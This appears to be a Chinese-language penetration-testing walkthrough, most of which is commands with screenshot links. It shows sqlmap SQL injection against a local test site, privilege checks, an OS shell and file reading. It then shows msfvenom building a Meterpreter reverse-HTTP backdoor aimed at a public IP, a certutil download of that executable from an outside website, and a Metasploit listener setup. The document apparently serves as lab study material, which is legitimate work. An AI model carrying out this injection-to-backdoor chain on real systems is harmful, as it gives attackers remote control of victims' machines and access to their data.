 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135197446-f8d8817d-dfd8-45b4-89cd-8ad45b1b5901.png)

```plain
执行：python310 sqlmap.py -r 1.txt
但是最后测试没有注入点
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135197185-e2340d86-12db-462b-9255-8021105e8dc4.png)

但是经过手工测试，证明注入点还有。在admin下面加上'来进行测试。但是最后测试还是没有注入点。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135197647-e7b65b5e-9fbc-4ced-ad42-0469963f42ef.png)

```plain
查看权限：python310 sqlmap.py -r 1.txt --is-dba
执行命令(交互式)：python310 sqlmap.py -r 1.txt --os-shell
本次用本地案例来进行代替。
本地联动msf
则python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1"
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198336-da548c84-ce99-4068-a52d-8de7617a5828.png)

判断高权限：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --is-dba

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198225-e03ca924-f5bf-4df8-bd6b-f9c54e5c38d7.png)

进行命令执行：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-shell

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198128-446da317-f7d4-41a0-9ba7-5b96c14b31d2.png)

在msf中生成一个后门： msfvenom -p windows/meterpreter/reverse_http lhost=47.100.167.248 lport=1111 -f exe -o sql.exe

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198194-5273e68d-a8c8-4994-b866-93c8209ec9c3.png)

```plain
放在阿里云网站目录上，访问www.mumuxi8.com/sql.exe进行下载。这里我们远程执行命令，利用命令行下载：certutil.exe -urlcache -split -f http://www.mumuxi8.com:80/sql.exe d:/sql.exe
msf监听1111端口：
use exploit/multi/handler 
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 1111
run
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198420-84571ada-dad7-4fa3-a751-8bd1c3f09c0c.png)

```plain
用到高权限SQL注入进行文件读取：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --file-read "d:/w.txt"
读取的结果保存在了文件中。路径：C:\Users\我是正经人z\AppData\Local\sqlmap\output\127.0.0.1\files
```
